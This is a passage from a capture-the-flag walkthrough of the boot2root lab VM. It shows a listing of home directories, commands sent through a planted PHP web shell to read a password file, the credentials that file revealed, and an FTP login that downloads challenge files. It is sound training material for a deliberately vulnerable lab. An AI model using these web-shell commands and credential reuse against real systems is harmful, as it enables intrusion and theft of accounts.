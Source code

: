 total 0 drwxrwx--x 1 www-data root 60 Oct 13 2015 . drwxr-xr-x 1 root root 220 Feb 21 12:39 .. drwxr-x--- 2 www-data www-data 31 Oct 8 2015 LOOKATME drwxr-x--- 6 ft_root ft_root 156 Jun 17 2017 ft_root drwxr-x--- 3 laurie laurie 143 Oct 15 2015 laurie drwxr-x--- 1 laurie@borntosec.net laurie@borntosec.net 60 Oct 15 2015 laurie@borntosec.net dr-xr-x--- 2 lmezard lmezard 61 Oct 15 2015 lmezard drwxr-x--- 3 thor thor 129 Oct 15 2015 thor drwxr-x--- 4 zaz zaz 147 Oct 15 2015 zaz
```

We see that we have an interesting directory called **LOOKATME**. 

`https://192.168.56.103/forum/templates_c/termmm.php?cmd=cd%20%2Fhome%2FLOOKATME%3B%20ls%20-la`

We notice that we have a file called **password**, cat it.

`https://192.168.56.103/forum/templates_c/termmm.php?cmd=cat%20%2Fhome%2FLOOKATME%2Fpassword`

The content of **password** is finally displayed. We got `lmezard:G!@M6f4Eatau{sF"`

#### **Step 7 - FTP**

We know that the ports 21 and 22 are open. Those ports run respectively a ftp server and an ssh server. The credentials `lmezard | G!@M6f4Eatau{sF"` gives us access to lmezard's session on the VM and on the ftp, but not on ssh. 

On the boot2root session we find 2 interesting files, one called README, telling us that we should complete a challenge to obtain the password of 'laurie' in order to connect via ssh, and the other one seems to list pcap files. It will be difficult for us to complete the challenge directly on the VM. 

Fortunately, those two files are available via ftp. Let's `get` them.
```
┌──(kali㉿kali)-[~]
└─$ ftp 192.168.56.103
Connected to 192.168.56.103.
220 Welcome on this server
Name (192.168.56.103:kali): lmezard
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||26872|)
150 Here comes the directory listing.
-rwxr-x---    1 1001     1001           96 Oct 15  2015 README
-rwxr-x---    1 1001     1001       808960 Oct 08  2015 fun
226 Directory send OK.
ftp> get README
local: README remote: README
229 Entering Extended Passive Mode (|||8655|)
150 Opening BINARY mode data connection for README (96 bytes).
100% |***********************************************************************|    96      860.09 KiB/s    00:00 ETA
226 Transfer complete.
96 bytes received in 00:00 (86.16 KiB/s)
ftp> get fun
local: fun remote: fun
229 Entering Extended Passive Mode (|||14622|)
150 Opening BINARY mode data connection for fun (808960 bytes).
100% |***********************************************************************|   790 KiB  153.16 MiB/s    00:00 ETA
226 Transfer complete.
808960 bytes received in 00:00 (142.52 MiB/s)
